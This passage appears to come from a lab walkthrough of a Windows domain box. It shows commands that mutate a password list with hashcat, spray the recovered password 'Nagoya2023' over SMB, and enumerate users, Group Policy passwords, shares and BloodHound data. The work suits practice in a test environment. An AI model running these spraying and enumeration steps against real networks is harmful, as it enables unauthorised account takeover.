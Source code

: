```bash
hashcat --force small_passwordlist -r custom.rule --stdout | sort -u > mut_passwordslist
```

![image.png](image%2011.png)

![image.png](image%2012.png)

Finally I found a match. 

Let’s perform password spraying on other users:

```bash
sudo nxc smb $IP -u userss -p Nagoya2023 --continue-on-success
```

![image.png](image%2013.png)

## Privileges as andrea.hayes

I am gonna run a command to fully get a username list without any missing.

**Username Enumeration**

```bash
lookupsid.py nagoya-industries.com/andrea.hayes:'Nagoya2023'@nagoya-industries.com | grep SidTypeUser | cut -d' ' -f 2 | cut -d'\' -f 2 | tee users
```

**Checking user description fields**

```bash
sudo nxc smb $IP -u 'andrea.hayes'  -p 'Nagoya2023' --users
```

![image.png](image%2014.png)

**Password Spraying**

![image.png](image%2015.png)

**Passwords in Group Policy SYSVOL share**

```bash
sudo crackmapexec smb $IP -u 'Andrea.Hayes' -p 'Nagoya2023' -M gpp_autologin
```

**Scraping Shares**

```bash
sudo crackmapexec smb $IP -u 'Andrea.Hayes' -p 'Nagoya2023' -M spider_plus -o EXCLUDE_DIR=IPC$
```

![image.png](image%2016.png)

**Enumeration - BloodHound**

```bash
sudo python3 /home/kali/.local/share/pipx/venvs/netexec/bin/bloodhound-python -d nagoya-industries.com -u 'Andrea.Hayes' -p 'Nagoya2023' -ns $IP -c all
```
